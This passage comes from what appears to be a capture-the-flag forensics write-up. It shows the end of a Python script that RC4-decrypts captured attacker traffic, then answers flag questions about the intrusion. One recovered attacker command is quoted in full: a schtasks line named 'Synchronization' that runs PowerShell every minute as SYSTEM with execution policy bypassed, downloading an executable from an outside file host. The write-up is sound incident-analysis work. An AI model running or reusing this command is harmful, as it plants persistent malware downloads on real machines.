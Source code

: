     62, 100, 87, 145, 185, 45, 61, 143, 52, 8, 227, 32, 233, 37, 183, 101, 89, 24, 125, 203,
    227, 9, 146, 156, 208, 206, 194, 134, 194, 23, 233, 100, 38, 158, 58, 159
]

# Decode the base64 string
decoded_data = base64.b64decode(base64_data)

# Decrypt the data using RC4 with the provided key
decrypted_data = rc4(key, decoded_data)

# Output the decrypted data to a .txt file
with open("decrypted_output01.txt", "wb") as f:
    f.write(decrypted_data)

print("Decryption complete. The decrypted data is saved to 'decrypted_output01.txt'.")
```

<img src="https://github.com/user-attachments/assets/ac544510-b091-45b9-9ee8-0862a529f230" width="500"> <br/>

<img src="https://github.com/user-attachments/assets/a8326b50-151e-4d1e-8358-947cdbf2babe" width="500"> <br/>


### 5. What is the name of the task scheduled by the attacker?

Decrypted outputs were mostly about system information and things that were being run on the target computed. 
After out through the outputs, I found the one with schtasks (which is used to schedule tasks in Windows). 



```
Microsoft Windows [Version 10.0.19045.5487]
(c) Microsoft Corporation. All rights reserved.

C:\Users\dev-support\Desktop>schtasks /create /tn Synchronization /tr "powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://www.mediafire.com/view/wlq9mlfrl0nlcuk/rakalam.exe/file -OutFile C:\Temp\rakalam.exe" /sc minute /mo 1 /ru SYSTEM

C:\Users\dev-support\Desktop>
```

<img src="https://github.com/user-attachments/assets/6bf7d9ab-b083-4b86-97bb-bc9425bb8903" width="500"> <br/>

Flag #5: ```Synchronization```


### 6. What is the API key leaked from the highly valuable file discovered by the attacker?

The final flag was found in another decrypted .eml file. 

```
Microsoft Windows [Version 10.0.19045.5487]
(c) Microsoft Corporation. All rights reserved.
